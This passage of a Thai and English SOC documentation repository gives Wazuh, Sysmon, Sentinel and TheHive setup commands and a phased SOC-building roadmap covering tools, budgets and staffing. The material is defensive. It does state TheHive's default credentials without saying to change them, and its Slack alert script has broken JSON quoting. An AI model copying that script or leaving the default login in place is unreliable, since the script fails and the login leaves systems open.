Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.9.0-1.msi -OutFile wazuh-agent.msi
msiexec.exe /i wazuh-agent.msi /q WAZUH_MANAGER="YOUR_SERVER_IP"
net start WazuhSvc
```

### Linux
```bash
# Ubuntu/Debian
curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | sudo gpg --dearmor -o /usr/share/keyrings/wazuh.gpg
echo "deb [signed-by=/usr/share/keyrings/wazuh.gpg] https://packages.wazuh.com/4.x/apt/ stable main" | sudo tee /etc/apt/sources.list.d/wazuh.list
sudo apt update && sudo apt install wazuh-agent -y
sudo sed -i 's/MANAGER_IP/YOUR_SERVER_IP/' /var/ossec/etc/ossec.conf
sudo systemctl enable --now wazuh-agent
```

---

## ส่วนที่ 3: ตั้งค่า Log Sources

### Active Directory
```xml
<!-- เพิ่มใน agent ossec.conf บน DC -->
<localfile>
  <location>Security</location>
  <log_format>eventchannel</log_format>
  <query>Event/System[EventID=4624 or EventID=4625 or EventID=4688 or EventID=4720 or EventID=1102]</query>
</localfile>
```

### Firewall (Syslog)
```xml
<!-- เพิ่มใน Wazuh server ossec.conf -->
<remote>
  <connection>syslog</connection>
  <port>514</port>
  <protocol>udp</protocol>
  <allowed-ips>FIREWALL_IP</allowed-ips>
</remote>
```

---


### Linux Servers

```bash
# ติดตั้ง rsyslog forwarding ไปยัง Wazuh
cat >> /etc/rsyslog.conf << 'EOF'
*.* @@<WAZUH_IP>:514
EOF
systemctl restart rsyslog
```

| Log Source | วิธีเชื่อมต่อ | ตัวอย่าง Log |
|:---|:---|:---|
| **Linux Auth** | rsyslog → Wazuh | `/var/log/auth.log` |
| **Apache/Nginx** | Filebeat → Wazuh | access.log, error.log |
| **Cloud Trail** | S3 → Wazuh module | AWS CloudTrail JSON |

## ส่วนที่ 4: ติดตั้ง Sysmon (Windows)

```powershell
# เพิ่มความสามารถการตรวจจับ Windows อย่างมาก
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile Sysmon.zip
Expand-Archive Sysmon.zip
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile sysmonconfig.xml
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

---


```xml
<!-- ใช้ Sysmon config จาก SwiftOnSecurity -->
<!-- ดาวน์โหลดจาก: github.com/SwiftOnSecurity/sysmon-config -->

Sysmon64.exe -accepteula -i sysmonconfig-export.xml
```

> Events สำคัญที่ต้อง monitor: **Event ID 1** (Process Create), **Event ID 3** (Network Connect), **Event ID 11** (File Create)

## ส่วนที่ 4.5: Import Sigma Rules ไปยัง Wazuh

```bash
# ติดตั้ง sigma-cli
pip3 install sigma-cli

# แปลง rules เป็นรูปแบบ Wazuh
sigma convert -t wazuh -p wazuh rules/ -o wazuh_rules.xml

# คัดลอกไปยัง Wazuh
cp wazuh_rules.xml /var/ossec/etc/rules/local_sigma.xml
systemctl restart wazuh-manager
```

## ส่วนที่ 5: ตั้งค่า Alert (Slack)

```bash
# สร้าง Slack webhook → ตั้งค่า Wazuh integration
# เมื่อมี alert level 10+ → ส่ง Slack ทันที
```

---


### Email Alerts

```xml
<!-- /var/ossec/etc/ossec.conf -->
<global>
  <email_notification>yes</email_notification>
  <smtp_server>smtp.example.com</smtp_server>
  <email_from>wazuh@example.com</email_from>
  <email_to>soc@example.com</email_to>
  <email_maxperhour>12</email_maxperhour>
</global>

<email_alerts>
  <email_to>soc@example.com</email_to>
  <level>10</level>
</email_alerts>
```

### ตั้งค่า Slack Webhook

```bash
# สร้าง Slack integration script
cat > /var/ossec/integrations/custom-slack.sh << 'SCRIPT'
#!/bin/bash
WEBHOOK_URL="https://hooks.slack.com/services/YOUR/WEBHOOK/URL"
ALERT_JSON=$(cat "$1")
curl -s -X POST "$WEBHOOK_URL" \
  -H 'Content-Type: application/json' \
  -d "{"text": "🚨 Wazuh Alert: $(echo $ALERT_JSON | jq -r '.rule.description')"}"
SCRIPT
chmod +x /var/ossec/integrations/custom-slack.sh
```

## ส่วนที่ 6: Sentinel (ถ้าเลือก Stack B)

```
1. Azure Portal → สร้าง Microsoft Sentinel
2. สร้าง Log Analytics Workspace
3. เชื่อม Data Connectors: M365 Defender, Azure AD, Azure Activity
4. เปิด Analytics Rules → ใช้ template
5. เสร็จ! มี SIEM ใน 30 นาที
```

---


```powershell
# Quick Setup — Azure Sentinel
# 1. สร้าง Log Analytics Workspace
az monitor log-analytics workspace create \
  --resource-group SOC-RG \
  --workspace-name SOC-Sentinel \
  --location southeastasia

# 2. เปิดใช้ Sentinel
az sentinel onboard --resource-group SOC-RG \
  --workspace-name SOC-Sentinel

# 3. เปิด Data Connectors
# - Azure AD Sign-in Logs
# - Microsoft 365
# - Azure Activity
# - Syslog (Linux)
```

## ส่วนที่ 7: ติดตั้ง TheHive (Ticketing)

```bash
# ติดตั้ง TheHive 5 ด้วย Docker
docker compose up -d

# docker-compose.yml
# services:
#   thehive:
#     image: strangebee/thehive:5
#     ports:
#       - "9000:9000"
#   elasticsearch:
#     image: elasticsearch:7.17.9
#   cassandra:
#     image: cassandra:4
```

> เข้าถึง TheHive ที่ `http://<SERVER_IP>:9000` — default: `admin@thehive.local` / `secret`

## Troubleshooting

| ปัญหา | สาเหตุ | วิธีแก้ |
|:---|:---|:---|
| Agent ไม่เชื่อมต่อ | Firewall block port 1514/1515 | เปิด port ที่ firewall |
| Log ไม่เข้า SIEM | rsyslog config ผิด | ตรวจสอบ IP และ port |
| Dashboard ว่าง | Index pattern ไม่ถูกต้อง | สร้าง index pattern ใหม่ |
| Alert ไม่ส่ง email | SMTP config ไม่ถูก | ทดสอบด้วย `sendmail` |
| Disk full | Log retention ยาวเกิน | ตั้งค่า log rotation |

## Checklist ตรวจสอบ

```
□ Wazuh Dashboard เข้าได้
□ Agent เชื่อมต่อ ≥3 เครื่อง
□ เห็น event real-time
□ AD login events มาถึง
□ Firewall logs มาถึง
□ Sysmon ติดตั้งบน Windows
□ Custom rule ทำงาน
□ Alert ส่ง Email/Slack ได้
□ 🎉 พร้อมเปิดปฏิบัติการ!
```

---

## Performance Tuning

| ส่วน | ปัญหา | วิธีปรับ |
|:---|:---|:---|
| **SIEM Indexing** | Query ช้า | เพิ่ม RAM, ปรับ shard size |
| **Log Ingestion** | Buffer overflow | เพิ่ม queue size, scale nodes |
| **Dashboard** | Load ช้า | ลด time range, ใช้ summary index |
| **Agent** | CPU สูงบน endpoint | ปรับ scan interval, exclude paths |
| **Alerting** | Alert delay | ลด evaluation interval |

## Backup & Recovery

| ส่วน | Backup Strategy | Recovery Time |
|:---|:---|:---:|
| SIEM Config | Daily snapshot → S3/NFS | < 1 ชม. |
| Detection Rules | Git repository | < 15 นาที |
| Dashboard/Reports | Export JSON → Git | < 30 นาที |
| Agent Config | Centralized config mgmt | < 1 ชม. |
| TheHive Cases | DB dump + Elasticsearch snapshot | < 2 ชม. |

## การ Hardening SIEM Server

```bash
# 1. Firewall — อนุญาตเฉพาะ port ที่จำเป็น
ufw allow 1514/tcp  # Agent communication
ufw allow 1515/tcp  # Agent enrollment
ufw allow 443/tcp   # Web UI
ufw deny incoming
ufw enable

# 2. SSL/TLS สำหรับ agent communication
# (Wazuh ตั้งค่าอัตโนมัติระหว่างติดตั้ง)

# 3. Disable root login
sed -i 's/PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config
systemctl restart sshd

# 4. Log rotation
cat >> /etc/logrotate.d/wazuh << 'EOF'
/var/ossec/logs/*.log {
    weekly
    rotate 12
    compress
    missingok
}
EOF
```

## Infrastructure Sizing Guide

### SIEM Sizing Calculator

| Parameter | Small | Medium | Large |
|:---|:---|:---|:---|
| EPS (Events/sec) | 500 | 2,000 | 10,000+ |
| Storage/day | 50 GB | 200 GB | 1 TB+ |
| Retention | 90 days | 180 days | 365 days |
| CPU Cores | 8 | 16 | 32+ |
| RAM | 32 GB | 64 GB | 128+ GB |
| Total Storage | 5 TB | 36 TB | 365+ TB |

### Network Architecture

```mermaid
flowchart TD
    A[Log Sources] --> B[Log Collector]
    B --> C[Message Queue]
    C --> D[SIEM Indexer]
    D --> E[Search Head]
    E --> F[SOC Dashboard]
    D --> G[Cold Storage]
```

### Deployment Readiness Checklist

| Category | Items | Status |
|:---|:---|:---|
| Network | VLAN, firewall rules, DNS | ☐ |
| Compute | VMs/containers provisioned | ☐ |
| Storage | Hot/warm/cold tiers | ☐ |
| Access | Admin accounts, MFA | ☐ |
| Monitoring | Health dashboards | ☐ |

## เอกสารที่เกี่ยวข้อง

- [แผนงานสร้าง SOC](SOC_Building_Roadmap.th.md)
- [เลือก Technology Stack](Technology_Stack.th.md)
- [คู่มือ Onboard Log](../06_Operations_Management/Log_Source_Onboarding.th.md)


---

## File: 01_SOC_Fundamentals/SOC_Building_Roadmap.en.md

# SOC Building Roadmap — From Zero to Operational

> **Document ID:** SOC-BUILD-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Audience:** IT Managers, CISOs, Security Leaders starting a SOC from scratch

---

## Who Is This For?

You have **no SOC today**. Maybe you have a small IT team that handles security "when something happens." This guide walks you through building a Security Operations Center from nothing — step by step, phase by phase.

---

## The 4 Phases

```
Phase 1 (Month 1-3)     Phase 2 (Month 4-6)     Phase 3 (Month 7-12)    Phase 4 (Year 2+)
┌──────────────┐   ┌──────────────┐   ┌──────────────┐   ┌──────────────┐
│  Foundation   │──▶│   Detection  │──▶│   Response   │──▶│  Maturity    │
│              │   │              │   │              │   │              │
│ • Buy tools  │   │ • Log sources│   │ • Playbooks  │   │ • Automation │
│ • Hire people│   │ • First rules│   │ • IR process │   │ • Threat hunt│
│ • Basic setup│   │ • Basic SOPs │   │ • Exercises   │   │ • SOAR       │
└──────────────┘   └──────────────┘   └──────────────┘   └──────────────┘
```

---

## Phase 1: Foundation (Month 1–3)

### 1.1 Define Your SOC Mission

Before buying anything, answer these questions:

| Question | Why It Matters |
|:---|:---|
| What are we protecting? | Defines scope (servers, cloud, endpoints, OT?) |
| What are our biggest risks? | Prioritizes what to detect first |
| What regulations apply? | PDPA, PCI DSS, ISO 27001 affect requirements |
| What's our budget? | Determines build vs buy vs outsource |
| Who will staff it? | In-house vs MSSP vs hybrid |

### 1.2 Choose Your Operating Model

| Model | Team Size | Budget | Best For |
|:---|:---:|:---:|:---|
| 🟢 **Hybrid MSSP** | 1–2 internal + MSSP | ฿1.5–3M/yr | Small org, <500 employees |
| 🟡 **Small In-house** | 3–5 analysts | ฿5–10M/yr | Mid-size, 500–2000 employees |
| 🔴 **Full In-house** | 8–15+ people | ฿15–30M+/yr | Enterprise, 2000+ employees |

> **Recommendation for beginners**: Start with **Hybrid MSSP** — outsource 24/7 monitoring, keep 1–2 people in-house for escalations and process building.

### 1.3 Select Your Technology Stack

#### SIEM (Security Information and Event Management) — Your #1 Tool

| SIEM | Cost | Best For | Learning Curve |
|:---|:---|:---|:---:|
| **Wazuh** | Free (open-source) | Budget-conscious, learning | 🟡 Medium |
| **Elastic Security** | Free tier available | Flexible, scalable | 🟡 Medium |
| **Microsoft Sentinel** | Pay-per-GB | Azure/M365 shops | 🟢 Easy |
| **Splunk** | $$$ per GB | Enterprise, any environment | 🔴 Hard |
| **Google Chronicle** | Flat-rate | Google Cloud users | 🟡 Medium |

> **Recommendation for beginners**: **Wazuh** (free, includes SIEM + EDR + compliance) or **Elastic Security** (free tier, powerful).

#### EDR (Endpoint Detection & Response)

| EDR | Cost | Key Feature |
|:---|:---|:---|
| **Wazuh Agent** | Free | Bundled with Wazuh SIEM |
| **Microsoft Defender for Endpoint** | Included in M365 E5 | Already have it? Use it! |
| **CrowdStrike Falcon** | $$$ | Best-in-class detection |
| **SentinelOne** | $$ | Strong autonomous response |
| **LimaCharlie** | Pay-per-agent | Flexible, affordable |

#### Other Essential Tools

| Category | Free Option | Paid Option |
|:---|:---|:---|
| **Ticketing** | TheHive, osTicket | ServiceNow, Jira |
| **Threat Intel** | MISP, OTX | Recorded Future, Mandiant |
| **Vulnerability Scanner** | OpenVAS/Greenbone | Tenable, Qualys |
| **Network Monitoring** | Zeek, Suricata | Darktrace, Vectra |
| **Email Security** | Built-in (M365/Google) | Proofpoint, Mimecast |
| **SOAR** | Shuffle, n8n | Palo Alto XSOAR, Splunk SOAR |

### 1.4 Minimum Viable Architecture

```
                    ┌─────────────┐
                    │   Internet  │
                    └──────┬──────┘
                           │
                    ┌──────┴──────┐
                    │  Firewall   │ ← Logs to SIEM
                    └──────┬──────┘
                           │
              ┌────────────┼────────────┐
              │            │            │
        ┌─────┴─────┐ ┌───┴───┐ ┌─────┴─────┐
        │  Servers   │ │  VPN  │ │ Cloud     │
        │ (EDR agent)│ │       │ │ (AWS/Azure)│
        └────────────┘ └───────┘ └───────────┘
              │            │            │
              └────────────┼────────────┘
                           │
                    ┌──────┴──────┐
                    │    SIEM     │ ← Wazuh / Elastic
                    │  Dashboard  │
                    └──────┬──────┘
                           │
                    ┌──────┴──────┐
                    │  SOC Team   │ ← Monitors dashboards
                    │  (Analysts) │    Reviews alerts
                    └─────────────┘
```

### 1.5 Hire Your First Team

#### Minimum Team (Hybrid Model)

| Role | Count | Skills Needed | Salary Range (Thailand) |
|:---|:---:|:---|:---|
| SOC Lead / Manager | 1 | 5+ yrs security, IR experience | ฿80–150K/mo |
| SOC Analyst (T1/T2) | 1–2 | SIEM, basic networking, willingness to learn | ฿30–60K/mo |

#### Where to Find People
- University security programs (KMUTT, Chula, KMITL)
- Online communities (SANS, TryHackMe, HackTheBox graduates)
- IT staff interested in transitioning to security
- Fresh graduates + structured training (cheapest option)

### 1.6 Phase 1 Checklist

```
□ SOC mission statement written
□ Operating model chosen (hybrid/in-house)
□ Budget approved
□ SIEM selected and installed
□ EDR deployed on critical servers
□ First team member(s) hired
□ Basic network diagram documented
□ Management buy-in secured
□ MSSP contract signed (if hybrid)
```

---

## Phase 2: Detection (Month 4–6)

### 2.1 Onboard Log Sources (Priority Order)

Follow the [Log Source Onboarding Guide](../06_Operations_Management/Log_Source_Onboarding.en.md).

| Week | Log Source | Why First |
|:---:|:---|:---|
| Week 1 | Active Directory / Azure AD | #1 attack target — logins, privilege changes |
| Week 2 | Firewall logs | Network visibility — who goes where |
| Week 3 | EDR / Endpoint logs | Malware, suspicious processes |
| Week 4 | Email gateway | Phishing — #1 initial access vector |
| Week 5–6 | Cloud (AWS/Azure) | Cloud misconfig is common |
| Week 7–8 | DNS + Proxy | C2, tunneling, shadow IT |

### 2.2 Deploy Your First Detection Rules

Start with these 10 Sigma rules from this repo (highest ROI):

| Priority | Rule | Detects | Playbook |
|:---:|:---|:---|:---|
| 1 | `win_multiple_failed_logins` | Brute force | PB-04 |
| 2 | `proc_office_spawn_powershell` | Phishing payload | PB-01 |
| 3 | `cloud_unusual_login` | Account compromise | PB-05 |
| 4 | `cloud_impossible_travel` | Stolen credentials | PB-06 |
| 5 | `file_bulk_renaming_ransomware` | Ransomware | PB-02 |
| 6 | `proc_temp_folder_execution` | Malware | PB-03 |
| 7 | `win_admin_share_access` | Lateral movement | PB-12 |
| 8 | `net_beaconing` | C2 communication | PB-13 |
| 9 | `win_security_log_cleared` | Cover tracks | PB-20 |
| 10 | `cloud_email_inbox_rule` | BEC | PB-17 |

### 2.3 Write Your First SOPs

Start with these documents from this repo:

1. ✅ [IR Framework](../05_Incident_Response/Framework.en.md) — How to handle incidents
2. ✅ [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md) — P1/P2/P3/P4 classification
3. ✅ [Tier 1 Runbook](../05_Incident_Response/Runbooks/Tier1_Runbook.en.md) — Day-to-day analyst guide
4. ✅ [Shift Handoff](../06_Operations_Management/Shift_Handoff.en.md) — If running shifts
5. ✅ [Communication Templates](../05_Incident_Response/Communication_Templates.en.md) — Who to notify

### 2.4 Phase 2 Checklist

```
□ Top 5 log sources onboarded and validated
□ 10 initial Sigma rules deployed
□ IR Framework documented and distributed
□ Severity Matrix agreed with management
□ Tier 1 Runbook given to all analysts
□ First false positive tuning completed
□ Alert routing configured (email/Slack/ticket)
□ Analysts can investigate basic alerts independently
```

---

## Phase 3: Operational (Month 7–12)

### 3.1 Expand Playbook Coverage

Deploy playbooks in this priority order:

| Wave | Playbooks | Why |
|:---:|:---|:---|
| Wave 1 (done in Phase 2) | PB-01 to PB-05 | Core threats |
| Wave 2 | PB-06 to PB-10 | Common scenarios |
| Wave 3 | PB-11 to PB-20 | Advanced threats |
| Wave 4 | PB-21 to PB-30 | Specialized scenarios |

### 3.2 Run Your First Tabletop Exercise

Use [Tabletop Exercises](../05_Incident_Response/Tabletop_Exercises.en.md):
- Start with **Scenario 1 (Ransomware)** — most likely real-world scenario
- Include SOC team, IT Ops, and at least one manager
- Score the exercise and document improvement areas

### 3.3 Establish Metrics

Track these 5 metrics from day 1 (see [SOC Metrics](../06_Operations_Management/SOC_Metrics.en.md)):

| Metric | Target (Month 6) | Target (Year 1) |
|:---|:---:|:---:|
| MTTD (Mean Time to Detect) | < 4 hours | < 1 hour |
| MTTR (Mean Time to Respond) | < 8 hours | < 4 hours |
| Alert-to-Ticket ratio | > 50% | > 70% |
| False Positive rate | < 70% | < 40% |
| SLA compliance (P1 response) | > 80% | > 95% |

### 3.4 Phase 3 Checklist

```
□ All 30 playbooks reviewed (deploy relevant ones)
□ All 33 Sigma rules deployed
□ First tabletop exercise completed
□ SOC metrics dashboard created
□ Monthly SOC report to management
□ Evidence collection procedures tested
□ PDPA notification process documented
□ At least 1 real incident handled end-to-end
```

---

## Phase 4: Maturity (Year 2+)

### 4.1 Advanced Capabilities

| Capability | When | How |
|:---|:---|:---|
| **Threat Hunting** | Month 12+ | Proactive searches beyond alert-driven |
| **SOAR Automation** | Month 12+ | Automate repetitive tasks (enrichment, blocking) |
| **Purple Teaming** | Month 15+ | Test your detections with [Purple Team Guide](../05_Incident_Response/Purple_Team_Exercises.en.md) |
| **Threat Intelligence** | Month 12+ | Feed integration with [TI Guide](../06_Operations_Management/TI_Feeds_Integration.en.md) |
| **Compliance Audit** | Month 18+ | Use [Compliance Mapping](../07_Compliance_Privacy/Compliance_Mapping.en.md) |

### 4.2 SOC Maturity Levels

Use the [SOC Maturity Scorer](../tools/soc_maturity_scorer.html) to assess:

| Level | Description | You're Here When... |
|:---:|:---|:---|
| 1 — Initial | Ad-hoc, reactive | No formal process |
| 2 — Managed | Basic monitoring, some SOPs | End of Phase 2 |
| 3 — Defined | Documented processes, metrics | End of Phase 3 |
| 4 — Quantitative | Data-driven, KPIs tracked | Year 2 |
| 5 — Optimizing | Continuous improvement, automation | Year 3+ |

---

## Budget Planning

### Option A: Budget SOC (Open-Source Stack)

| Item | Year 1 Cost | Notes |
|:---|:---:|:---|
| SIEM (Wazuh) | ฿0 | Self-hosted, open-source |
| Server hardware / VM | ฿200K–500K | 2–3 servers or cloud VMs |
| EDR (Wazuh Agent) | ฿0 | Included |
| Threat Intel (MISP + OTX) | ฿0 | Open-source |
| Ticketing (TheHive) | ฿0 | Open-source |
| Staff (1 Lead + 1 Analyst) | ฿1.3–2.5M | Thai market rates |
| Training / Certs | ฿100–300K | SANS, CompTIA, online courses |
| **Total Year 1** | **฿1.6–3.3M** | |

### Option B: Mid-Range SOC (Commercial + Open-Source)

| Item | Year 1 Cost | Notes |
|:---|:---:|:---|
| SIEM (Elastic / Sentinel) | ฿500K–2M | Pay-per-GB or license |
| EDR (Defender / CrowdStrike) | ฿500K–2M | Per-endpoint licensing |
| Vuln Scanner (Tenable) | ฿500K–1M | Annual license |
| Staff (1 Lead + 3 Analysts) | ฿3–5M | 8×5 or 16×5 coverage |
| MSSP (after-hours) | ฿1–2M | Night/weekend coverage |
| Training | ฿300–500K | SANS, vendor-specific |
| **Total Year 1** | **฿5.8–12.5M** | |

### Option C: Enterprise SOC

| Item | Year 1 Cost |
|:---|:---:|
| SIEM (Splunk / Chronicle) | ฿3–10M |
| EDR (CrowdStrike / SentinelOne) | ฿2–5M |
| SOAR (XSOAR / Splunk SOAR) | ฿2–5M |
| Staff (8–15 people, 24×7) | ฿10–25M |
| Training + Certs | ฿1–2M |
| **Total Year 1** | **฿18–47M** |

---

## Analyst Training Path

### For Complete Beginners (Month 1–3)

| Week | Topic | Resource |
|:---:|:---|:---|
| 1–2 | Networking fundamentals | CompTIA Network+ / YouTube |
| 3–4 | Linux & Windows basics | TryHackMe "Pre-Security" path |
| 5–6 | Security fundamentals | CompTIA Security+ study |
| 7–8 | SIEM basics | Your SIEM vendor training (free) |
| 9–10 | Log analysis | TryHackMe "SOC Level 1" path |
| 11–12 | IR fundamentals | This repository + SANS webinars |

### Recommended Certifications (Progressive)

```
Beginner        Intermediate      Advanced
┌──────────┐   ┌──────────┐    ┌──────────┐
│CompTIA   │──▶│ CySA+    │──▶│ SANS     │
│Security+ │   │ BTL1     │   │ GCIH     │
│SC-900    │   │ SC-200   │   │ GCFA     │
└──────────┘   └──────────┘   └──────────┘
   ~฿10K        ~฿15–30K       ~฿100–200K
```

### Free Training Resources

| Resource | What You Learn |
|:---|:---|
| [TryHackMe](https://tryhackme.com) | SOC Level 1 & 2 paths (free tier) |
| [LetsDefend](https://letsdefend.io) | SOC analyst simulation |
| [CyberDefenders](https://cyberdefenders.org) | Blue team challenges |
| [SANS Webcasts](https://sans.org/webcasts) | Free expert sessions |
| **This Repository** | Real-world SOPs, playbooks, detection rules |

---

## Common Mistakes to Avoid

| ❌ Mistake | ✅ Instead |
|:---|:---|
| Buying expensive SIEM before hiring people | Hire first, then choose tools with them |
| Trying to monitor everything on day 1 | Start with top 5 log sources |
| No playbooks, just "figure it out" | Use this repo's playbooks from day 1 |
| Alert fatigue (too many noisy rules) | Start with 10 rules, tune, then add more |
| No metrics — can't prove value | Track MTTD/MTTR from week 1 |
| 24/7 with 2 people (burnout) | Use MSSP for after-hours until you can staff properly |
| Skipping tabletop exercises | Run quarterly — cheapest way to find gaps |
| No management reporting | Monthly 1-pager to CISO/CEO |

---

## Quick Start Checklist (30-Day Sprint)

```
Week 1:
□ Read this entire guide
□ Write your SOC mission statement (1 paragraph)
□ Identify your crown jewels (most critical systems/data)
□ Get budget approval

Week 2:
□ Install Wazuh or chosen SIEM on a VM
□ Deploy 5 agents on critical servers
□ Configure Active Directory log forwarding
□ Read the Tier 1 Runbook

Week 3:
□ Import top 10 Sigma rules
□ Test: can you see a failed login in the SIEM?
□ Test: does an alert fire for 10+ failed logins?
□ Set up email/Slack notifications for alerts

Week 4:
□ Print Severity Matrix and post it on the wall
□ Assign someone to check alerts daily
□ Handle your first alert end-to-end
□ Document what you learned
```

---

## This Repository — Your Reading Order

If you're starting from zero, read these documents in this order:

| Order | Document | Why |
|:---:|:---|:---|
| 1 | **This guide** (you're here!) | Overall roadmap |
| 2 | [IR Framework](../05_Incident_Response/Framework.en.md) | How incidents work |
| 3 | [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md) | P1/P2/P3/P4 |
| 4 | [Tier 1 Runbook](../05_Incident_Response/Runbooks/Tier1_Runbook.en.md) | Daily operations |
| 5 | [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md) | Roles & shifts |
| 6 | [Detection Rules Index](../08_Detection_Engineering/README.md) | What rules to deploy |
| 7 | [Log Source Onboarding](../06_Operations_Management/Log_Source_Onboarding.en.md) | How to add logs |
| 8 | [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.en.md) | Your first playbook |
| 9 | [SOC Metrics](../06_Operations_Management/SOC_Metrics.en.md) | Measuring success |
| 10 | [Tabletop Exercises](../05_Incident_Response/Tabletop_Exercises.en.md) | Testing readiness |

---

## Related Documents

- [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md)
- [SOC Maturity Scorer](../tools/soc_maturity_scorer.html)
- [MITRE ATT&CK Heatmap](../tools/mitre_attack_heatmap.html)
- [Compliance Mapping](../07_Compliance_Privacy/Compliance_Mapping.en.md)
- [All 30 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md)


---

## File: 01_SOC_Fundamentals/SOC_Building_Roadmap.th.md

# แผนงานสร้าง SOC จากศูนย์

> **รหัสเอกสาร:** SOC-BUILD-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **กลุ่มเป้าหมาย:** IT Manager, CISO, ผู้บริหารที่ต้องการสร้าง SOC ใหม่

---

## เอกสารนี้สำหรับใคร?

คุณ **ยังไม่มี SOC** วันนี้ อาจมีทีม IT เล็กๆ ที่ดูแลความปลอดภัย "เมื่อมีอะไรเกิดขึ้น" คู่มือนี้จะพาคุณสร้าง SOC ตั้งแต่ไม่มีอะไรเลย — ทีละขั้น ทีละ Phase

---

## 4 เฟส

```
เฟส 1 (เดือน 1-3)      เฟส 2 (เดือน 4-6)      เฟส 3 (เดือน 7-12)     เฟส 4 (ปีที่ 2+)
┌──────────────┐   ┌──────────────┐   ┌──────────────┐   ┌──────────────┐
│  วางรากฐาน    │──▶│  ตรวจจับ      │──▶│  ปฏิบัติการ    │──▶│  พัฒนาต่อ     │
│              │   │              │   │              │   │              │
│ • ซื้อเครื่องมือ│   │ • เพิ่ม Log   │   │ • Playbooks  │   │ • Automation │
│ • จ้างคน     │   │ • Rules แรก  │   │ • IR process │   │ • Threat hunt│
│ • ติดตั้งพื้นฐาน│   │ • SOP พื้นฐาน │   │ • ซ้อม        │   │ • SOAR       │
└──────────────┘   └──────────────┘   └──────────────┘   └──────────────┘
```

---

## เฟส 1: วางรากฐาน (เดือน 1–3)

### 1.1 ตอบคำถามพื้นฐาน

| คำถาม | ทำไมสำคัญ |
|:---|:---|
| ปกป้องอะไร? | กำหนดขอบเขต |
| ความเสี่ยงใหญ่สุดคืออะไร? | จัดลำดับว่า detect อะไรก่อน |
| กฎหมายอะไรเกี่ยวข้อง? | PDPA, ISO, PCI |
| งบเท่าไหร่? | กำหนด build vs buy vs outsource |

### 1.2 เลือกโมเดล

| โมเดล | ทีม | งบ/ปี | เหมาะกับ |
|:---|:---:|:---:|:---|
| 🟢 **Hybrid MSSP** | 1–2 คน + MSSP | ฿1.5–3M | องค์กรเล็ก <500 คน |
| 🟡 **In-house เล็ก** | 3–5 คน | ฿5–10M | กลาง 500–2000 คน |
| 🔴 **Full In-house** | 8–15+ คน | ฿15–30M+ | ใหญ่ 2000+ คน |

> **แนะนำ**: เริ่มจาก **Hybrid MSSP** — outsource 24/7 monitoring เก็บ 1–2 คนไว้ดูแล escalation

### 1.3 เลือกเครื่องมือ

#### SIEM — เครื่องมือ #1

| SIEM | ค่าใช้จ่าย | เหมาะกับ |
|:---|:---|:---|
| **Wazuh** | ฟรี (open-source) | งบจำกัด, เรียนรู้ |
| **Elastic Security** | Free tier | ยืดหยุ่น, scale ได้ |
| **Microsoft Sentinel** | จ่ายตาม GB | ใช้ Azure/M365 |
| **Splunk** | แพง | Enterprise |

> **แนะนำ**: **Wazuh** (ฟรี, รวม SIEM + EDR + Compliance)

### 1.4 จ้างทีมแรก

| ตำแหน่ง | จำนวน | เงินเดือน (ไทย) |
|:---|:---:|:---|
| SOC Lead | 1 | ฿80–150K/เดือน |
| SOC Analyst | 1–2 | ฿30–60K/เดือน |

---


#### EDR (Endpoint Detection & Response)

| เครื่องมือ | ประเภท | เหมาะกับ |
|:---|:---|:---|
| **Wazuh** | Open-Source | งบจำกัด, DIY |
| **CrowdStrike Falcon** | Commercial | องค์กรขนาดใหญ่ |
| **Microsoft Defender for Endpoint** | Commercial | สภาพแวดล้อม M365 |
| **LimaCharlie** | Cloud-native | Startup, MSSP |

#### เครื่องมือจำเป็นอื่น ๆ

| หมวด | เครื่องมือแนะนำ | วัตถุประสงค์ |
|:---|:---|:---|
| **Ticketing** | TheHive / Jira | จัดการเคส |
| **TI Platform** | MISP / OpenCTI | จัดการข่าวกรองภัยคุกคาม |
| **Vulnerability Scanner** | OpenVAS / Nessus | สแกนช่องโหว่ |
| **Network** | Suricata / Zeek | ตรวจจับเครือข่าย |

### 1.4 สถาปัตยกรรมขั้นต่ำที่ใช้งานได้ (MVA)

```mermaid
graph LR
    Endpoints["🖥️ Endpoints"] -->|Logs| Wazuh["Wazuh/SIEM"]
    FW["🔥 Firewall"] -->|Syslog| Wazuh
    AD["📁 AD"] -->|WinEventLog| Wazuh
    Wazuh --> Alert["⚠️ Alerts"]
    Alert --> TheHive["📋 TheHive"]
    Wazuh --> Dashboard["📊 Dashboard"]
```

### 1.5 จ้างทีมแรก

#### ทีมขั้นต่ำ (Hybrid Model)

| บทบาท | จำนวน | ทักษะสำคัญ |
|:---|:---:|:---|
| **SOC Manager** | 1 | ภาวะผู้นำ, IR, GRC |
| **Tier 1 Analyst** | 2–3 | Alert triage, SIEM |
| **Tier 2 Analyst** | 1 | Investigation, forensics |
| **Detection Engineer** | 1 (shared) | Sigma, YARA, scripting |

#### หาคนที่ไหน

- ชุมชน cybersecurity ในประเทศ (NCSA, สมาคม ISC2 Thailand)
- โปรแกรมฝึกงานจากมหาวิทยาลัย
- CTF communities และ Bug Bounty programs
- Upskill ทีม IT ที่มีอยู่

### 1.6 เช็คลิสต์เฟส 1

- [ ] กำหนดขอบเขตและ mission ของ SOC
- [ ] เลือก SIEM + EDR stack
- [ ] ติดตั้งและตั้งค่า SIEM
- [ ] Deploy EDR agents บน critical endpoints
- [ ] จ้าง/มอบหมาย SOC Manager และ Analysts
- [ ] สร้าง shift schedule เบื้องต้น

## เฟส 2: ตรวจจับ (เดือน 4–6)

### เพิ่ม Log Source ตามลำดับ

| สัปดาห์ | Log Source | ทำไมก่อน |
|:---:|:---|:---|
| 1 | Active Directory | เป้าโจมตี #1 |
| 2 | Firewall | เห็น traffic |
